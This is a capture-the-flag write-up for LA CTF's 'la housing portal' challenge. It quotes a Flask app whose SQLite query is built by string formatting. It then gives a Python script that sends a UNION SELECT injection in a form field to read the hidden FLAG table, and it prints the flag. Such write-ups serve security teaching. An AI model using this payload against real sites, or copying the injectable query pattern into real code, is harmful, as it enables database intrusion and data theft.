



# la housing portal

> Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.
> 
> Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.
> 
> Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.
>
> https://la-housing.chall.lac.tf/

Solution:

The source code of the challenge was given.

Looking at the `app.py`...

```python
import sqlite3
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")

    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

It's vulnerable to SQL injection. However, we:
- can't use comments
- can't exceed 10 characters for key
- can't exceed 50 characters for the value

`data.sql` was given as well



So the table `users` has 6 columns



and we need to retrieve the `flag` from the `FLAG` table

instead of using comments, let's just make it part of our `where` clause

```python
import requests

url = 'https://la-housing.chall.lac.tf/submit'

formData = {
    'name': 'a',
    'guests': '\' UNION SELECT 1,*,3,4,5,6 from FLAG WHERE \'1\'=\'1',
}

response = requests.post(url, data=formData)

if response.status_code == 200:
    print('Success!')
    print(response.text)
else:
    print(f'Request failed: {response.status_code}')
    print(response.text)
```



Flag: `lactf{us3_s4n1t1z3d_1npu7!!!}`
